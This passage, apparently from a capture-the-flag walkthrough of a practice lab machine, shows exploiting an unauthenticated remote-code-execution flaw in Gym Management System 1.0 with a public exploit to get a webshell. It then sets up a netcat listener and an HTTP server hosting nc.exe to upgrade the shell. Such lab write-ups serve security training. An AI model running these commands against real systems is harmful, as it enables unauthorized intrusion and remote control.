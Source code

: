 First try the RCE exploit.

```bash
$ searchsploit -m 48506      
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
...
```

Reading the content of the exploit shows that the upload.php file of the management system is vulnerable. Verify that it is present on the server

```bash
$ curl http://10.10.10.198:8080/upload.php
<br />
<b>Notice</b>:  Undefined index: id in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>4</b><br />
```

It is present indeed, including an error. The exploit mentions it's usage `Usage:\t python %s <WEBAPP_URL>`. It also needs the colorama module.

```
$ pip install colorama
...
Successfully installed colorama-0.4.4
$ python 48506.py 'http://10.10.10.198:8080/'
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                  
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun

C:\xampp\htdocs\gym\upload> 
```

Success! Access as user shaun. Proof can be obtained with

```console
C:\xampp\htdocs\gym\upload> type c:\users\shaun\desktop\user.txt
```

User Shaun is not an administrator user. Therefore additional enumeration is needed to find a way to escalate privileges. The obtained shell is not a fully functional one.  The first step is to upgrade it.

## Upgrade shell

Start a webserver to host a netcat executable (nc.exe) and start a netcat listener.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

$ nc -nlvp 4444
listening on [any] 4444 ...
```
